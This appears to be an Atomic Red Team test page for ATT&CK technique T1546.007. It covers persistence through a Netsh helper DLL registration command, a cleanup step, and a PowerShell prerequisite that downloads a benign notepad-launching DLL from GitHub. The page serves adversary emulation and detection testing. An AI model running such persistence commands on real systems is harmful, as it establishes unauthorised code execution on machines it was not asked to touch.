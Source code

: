 ```yaml
---
tags: [T1546_007, atomic_test]
filename: "[[T1546.007|T1546.007 - Event Triggered Execution: Netsh Helper DLL]]"
---
```


# T1546.007 - Event Triggered Execution: Netsh Helper DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/007)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by Netsh Helper DLLs. Netsh.exe (also referred to as Netshell) is a command-line scripting utility used to interact with the network configuration of a system. It contains functionality to add helper DLLs for extending functionality of the utility.(Citation: TechNet Netsh) The paths to registered netsh.exe helper DLLs are entered into the Windows Registry at <code>HKLM\SOFTWARE\Microsoft\Netsh</code>.

Adversaries can use netsh.exe helper DLLs to trigger execution of arbitrary code in a persistent manner. This execution would take place anytime netsh.exe is executed, which could happen automatically, with another persistence technique, or if other software (ex: VPN) is present on the system that executes netsh.exe as part of its normal functionality.(Citation: Github Netsh Helper CS Beacon)(Citation: Demaske Netsh Persistence)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Netsh Helper DLL Registration](#atomic-test-1---netsh-helper-dll-registration)


<br/>

## Atomic Test #1 - Netsh Helper DLL Registration
You can register a "helper dll" with Netsh as a persistance mechanism. The code in the dll is executed every time netsh.exe is called.
The NetshHelper.dll provided with the atomic will simply launch notepad when netsh.exe is run.

[Blog](https://htmlpreview.github.io/?https://github.com/MatthewDemaske/blogbackup/blob/master/netshell.html)
[Sample DLL code](https://github.com/outflanknl/NetshHelperBeacon)

**Supported Platforms:** Windows


**auto_generated_guid:** 3244697d-5a3a-4dfc-941c-550f69f91a4d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| helper_file | Path to DLL | path | PathToAtomicsFolder&#92;T1546.007&#92;bin&#92;NetshHelper.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
netsh.exe add helper "#{helper_file}"
taskkill /im notepad.exe /t /f > NUL 2>&1
```

#### Cleanup Commands:
```cmd
netsh.exe delete helper "#{helper_file}"
```



#### Dependencies:  Run with `powershell`!
##### Description: Helper DLL must exist on disk at specified location (#{helper_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{helper_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{helper_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.007/bin/NetshHelper.dll" -OutFile "#{helper_file}"
```




<br/>
